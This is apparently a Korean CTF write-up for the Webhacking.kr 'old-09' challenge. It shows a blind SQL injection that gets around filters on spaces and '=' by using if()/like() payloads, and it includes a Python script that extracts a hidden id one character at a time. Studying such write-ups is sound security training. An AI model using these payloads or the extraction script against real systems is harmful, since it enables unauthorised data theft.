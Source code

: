 ```yaml
---
title: ["[Webhacking.kr] old-09 (sqli - 90)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, blind sqli, mysql, blackbox]
---
```

## Intro

![문제 설명](assets/img/writeup/webhacking.kr/old-09/recon.png)

문제에 주어진 코드가 많지 않다.  
`no` 파라미터를 받으며, `no=1`일때 apple을, `no=2`일때 banana를 반환하다.  


## Analysis

```
| id     | no  |
| ------ | --- |
| Apple  | 1   |
| Banana | 2   |
| Secret | 3   |
```
문제에서 주어진 정보에 따르면, 테이블이 다음과 같이 구성되어 있는 것 같다.  

```sql
select id from TBL where no={}
```  
`no`파라미터는 다음과 같은 쿼리문에 넘겨질 것이다.  

인젝션이 가능한지 여부를 확인하기 위해, 간단한 텍스트부터 테스트 해봤자.

```
?no=1+1
?no=2-1
?no=2>>1
?no=floor(1.3)
?no=0 or no=1
...
```
다양한 페이로드를 시도해봤지만 모두 400에러가 떴다.  
`=`을 포함한 각종 연산자와 `and`, `or` 심지어 공백까지 필터링하고 있는 것 같다.

[HackTricks Mysql Injection](https://book.hacktricks.xyz/pentesting-web/sql-injection/mysql-injection)을 참고해보자.  

```
?no=length(1)
```
동작하는 페이로드를 찾았다.  
해당 페이로드를 응용해보자.  

```
?no=if(length(id)like(11),3,0)
```  
공백과 `=`을 이용하지 않고, mysql함수를 이용한 쿼리이다.  
`id`의 길이가 11이라면, `no` 파라미터에 3이 들어가고,  
11이 아니라면, 0이 들어가는 쿼리이다.  

즉, 비교구문이 참이라면 `?no=3`에 대한 response가 올 것이고,  
거짓이라면 `?no=0`에 대한 response가 올 것이다.  
이걸 응용해서 `id`값을 구할 수 있다.  

`id`의 길이가 11인 것을 알아냈으니,  
`ascii`와 `substr`을 활용해서 `id`값을 한글자씩 계산해보자.  
```
?no=if(ascii(substr(id,1,1))like(116),3,0)
```  
이런 쿼리를 생각해봤는데 또 에러가 난다..  

## Payload

Mysql의 `like`는 대소문자를 구별하지 않는다.  
그래서, `ascii(substr())`, `ord(substr())`, `binary(substr())` 등을 써서 대소문자를 구별해주는게 중요한데,  
`substr()`외에는 동작을 안해서 어쩔 수 없이 `ascii_lowercase`만 비교했다.  

한 가지 문제가 더 발생했는데,  
Burp로 할 땐 동작하던 페이로드가 `requests`로 넘길땐 안됐다.  
`requests`를 사용할 때는 습관적으로 파라미터를 `params`를 이용해서 넘겼는데,  
이 경우에는 URL Encoding이 적용되게 된다.  
아마 서버에서 파라미터 값이 디코딩되기 전에 필터링 함수가 걸려있어서 그런게 아닐까 추정된다.  


```python
import requests
import string

url = 'https://webhacking.kr/challenge/web-09/'
cookies = {
    'PHPSESSID': 'nvvu0h5irc7okp6giavrnsdc9n'
}
id = ''

for i in range (1, 12):
    for j in string.ascii_lowercase:
        payload = f"if(substr(id,{i},1)like('{j}'),3,0)"
        response = requests.get(f"{url}?no={payload}", cookies=cookies) 
        if "Secret" in response.text:
            id += j
            print(id)
            break
```

